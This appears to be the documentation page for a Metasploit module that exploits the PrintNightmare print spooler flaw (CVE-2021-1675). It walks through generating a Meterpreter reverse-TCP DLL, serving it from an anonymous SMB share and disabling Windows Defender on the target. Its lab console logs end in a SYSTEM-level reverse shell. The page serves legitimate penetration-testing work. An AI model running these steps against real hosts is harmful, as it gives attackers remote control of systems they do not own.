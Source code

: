 ## Vulnerable Application
The print spooler service can be abused by an authenticated remote attacker to load a DLL through a crafted DCERPC
request, resulting in remote code execution as NT AUTHORITY\SYSTEM.

## Verification Steps

1. Optionally, create a DLL payload that the target will execute
    1. From msfconsole
    1. Do: `use payload/windows/x64/meterpreter/reverse_tcp`
    1. Set the `LHOST` and `LPORT` values
    1. Do: `to_handler` to start the payload handler
    1. Do: `generate -f dll -o /path/to/save/the/payload.dll` to generate the DLL file
1. Start an SMB server with anonymous read access containing the DLL payload.
    1. `sudo apt-get install -y samba samba-common`
    1. `sudo cp -pf /etc/samba/smb.conf /etc/samba/smb.conf.bak` to backup your existing config.
    1. `sudo mkdir /var/public`
    1. Add the following into the end of the `/etc/samba/smb.conf` file:

        ```
        [public]
        comment = Public Directories
        path = /var/public
        guest ok = Yes
        ```

    1. Restart Samba with `sudo service smbd restart`.
1. Generate your DLL and place the file under `/var/public`.

    ```
    msf6 auxiliary(admin/dcerpc/cve_2021_1675_printnightmare) > use payload/windows/x64/meterpreter/reverse_tcp
    msf6 payload(windows/x64/meterpreter/reverse_tcp) > show options

    Module options (payload/windows/x64/meterpreter/reverse_tcp):

    Name      Current Setting  Required  Description
    ----      ---------------  --------  -----------
    EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
    LHOST                      yes       The listen address (an interface may be specified)
    LPORT     4444             yes       The listen port

    msf6 payload(windows/x64/meterpreter/reverse_tcp) > set LHOST 192.168.224.128
    LHOST => 192.168.224.128
    msf6 payload(windows/x64/meterpreter/reverse_tcp) > set LPORT 8822
    LPORT => 8822
    msf6 payload(windows/x64/meterpreter/reverse_tcp) > to_handler
    [*] Payload Handler Started as Job 0

    [*] Started reverse TCP handler on 192.168.224.128:8822
    msf6 payload(windows/x64/meterpreter/reverse_tcp) > generate -f dll -o /home/gwillcox/payload.dll
    [*] Writing 8704 bytes to /home/gwillcox/payload.dll...
    msf6 payload(windows/x64/meterpreter/reverse_tcp) > sudo mv /home/gwillcox/payload.dll /var/public/payload.dll
    ```

1. Disable Windows security options on the target
    1. Disable Windows Defender Real-time protection (Windows Security > Virus & threat protection > Virus & threat protection settings)
    1. Disable Windows Defender SmartScreen (Windows Security > Virus & threat protection > App & browser control)

1. Exploit the vulnerability to force the target to load the DLL payload
    1. From msfconsole
    1. Do: `use auxiliary/admin/dcerpc/cve_2021_1675_printnightmare`
    1. Set the `RHOSTS` values
    1. Set the `SMBUser` and `SMBPass` values
    1. Set the `DLL_PATH` value to the UNC path to the server and payload DLL like `\\192.168.0.2\public\payload.dll`
    1. Run the module

## Options

### DLL_PATH
The path to the DLL that the server should load. This path can either be a network-based UNC path or a local path on the
remote target. The DLL will be copied to the remote server using the same filename.

If the DLL is a payload generated by Metasploit, know that only a single session can be active per target at any time
due to how these payloads are synchronized. If the session closes, dies, or the user migrates to a new process, the same
DLL can be used again otherwise a new DLL will need to be created for each simultaneously active session. One DLL can
however be used to establish multiple sessions simultaneously so long as each session is on a different target.

If this value is a UNC path, it will automatically be converted to use the `\??\UNC\` prefix instead of `\\` to bypass
the path check in certain scenarios.

### ReconnectDelay
*This is an advanced option.*

A delay in seconds to wait before reconnecting to the named pipe.

While exploiting the vulnerability, it is common for the named pipe connection to be closed. This option specifies a
delay in seconds to wait before reconnecting to the service. A delay that is too short may fail with
`STATUS_OBJECT_NAME_NOT_FOUND`.

## Scenarios

### Windows Server 2019

First, generate the payload DLL or use an existing one. Copy it to the SMB server and note the UNC path. Any DLL can be
used but the architecture must match the host. This example generates a 64-bit Meterpreter payload using the Reverse TCP
stager.

```
msf6 > use payload/windows/x64/meterpreter/reverse_tcp
msf6 payload(windows/x64/meterpreter/reverse_tcp) > set LHOST 192.168.159.128
LHOST => 192.168.159.128
msf6 payload(windows/x64/meterpreter/reverse_tcp) > to_handler
[*] Payload Handler Started as Job 0
msf6 payload(windows/x64/meterpreter/reverse_tcp) >
[*] Started reverse TCP handler on 192.168.159.128:4444

msf6 payload(windows/x64/meterpreter/reverse_tcp) > generate -f dll -o /tmp/reverse_tcp.x64.dll
[*] Writing 8704 bytes to /tmp/reverse_tcp.x64.dll...
msf6 payload(windows/x64/meterpreter/reverse_tcp) >
```

Next, use the module to trigger loading the DLL. Note that when setting the `DLL_PATH` option, the `\` characters are
doubled so that they are escaped on the command line.

```
msf6 payload(windows/x64/meterpreter/reverse_tcp) > use auxiliary/admin/dcerpc/cve_2021_1675_printnightmare
msf6 auxiliary(admin/dcerpc/cve_2021_1675_printnightmare) > set DLL_PATH \\\\192.168.159.128\\public\\reverse_tcp.x64.dll
DLL_PATH => \\192.168.159.128\public\reverse_tcp.x64.dll
msf6 auxiliary(admin/dcerpc/cve_2021_1675_printnightmare) > set RHOSTS 192.168.159.96
RHOSTS => 192.168.159.96
msf6 auxiliary(admin/dcerpc/cve_2021_1675_printnightmare) > set SMBUSER aliddle
SMBUSER => aliddle
msf6 auxiliary(admin/dcerpc/cve_2021_1675_printnightmare) > set SMBPASS Password1
SMBPASS => Password1
msf6 auxiliary(admin/dcerpc/cve_2021_1675_printnightmare) > run
[*] Running module against 192.168.159.96

[*] 192.168.159.96:445 - Target environment: Windows v10.0.17763 (x64)
[*] 192.168.159.96:445 - Binding to 12345678-1234-abcd-ef00-0123456789ab:1.0@ncacn_np:192.168.159.96[\spoolss] ...
[*] 192.168.159.96:445 - Bound to 12345678-1234-abcd-ef00-0123456789ab:1.0@ncacn_np:192.168.159.96[\spoolss] ...
[*] 192.168.159.96:445 - Enumerating the installed printer drivers...
[*] 192.168.159.96:445 - Using driver path: C:\Windows\System32\DriverStore\FileRepository\ntprint.inf_amd64_2097e02ea77b432e\Amd64\UNIDRV.DLL
[*] 192.168.159.96:445 - Using directory: C:\Windows\system32\spool\DRIVERS\x64
[*] 192.168.159.96:445 - RpcAddPrinterDriverEx response 0 ERROR_SUCCESS (The operation completed successfully.)
[*] Sending stage (200262 bytes) to 192.168.159.96
[*] 192.168.159.96:445 - Error STATUS_PIPE_BROKEN (The pipe operation has failed because the other end of the pipe has been closed.)
[-] 192.168.159.96:445 - Error STATUS_PIPE_CLOSING (The specified named pipe is in the closing state.)
[-] 192.168.159.96:445 - Error STATUS_PIPE_CLOSING (The specified named pipe is in the closing state.)
[*] Auxiliary module execution completed
msf6 auxiliary(admin/dcerpc/cve_2021_1675_printnightmare) > [*] Meterpreter session 1 opened (192.168.159.128:4444 -> 192.168.159.96:49732) at 2021-07-02 15:59:30 -0400

msf6 auxiliary(admin/dcerpc/cve_2021_1675_printnightmare) > sessions -i -1
[*] Starting interaction with 1...

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > sysinfo
Computer        : WIN-3MSP8K2LCGC
OS              : Windows 2016+ (10.0 Build 17763).
Architecture    : x64
System Language : en_US
Domain          : MSFLAB
Logged On Users : 9
Meterpreter     : x64/windows
meterpreter >
```
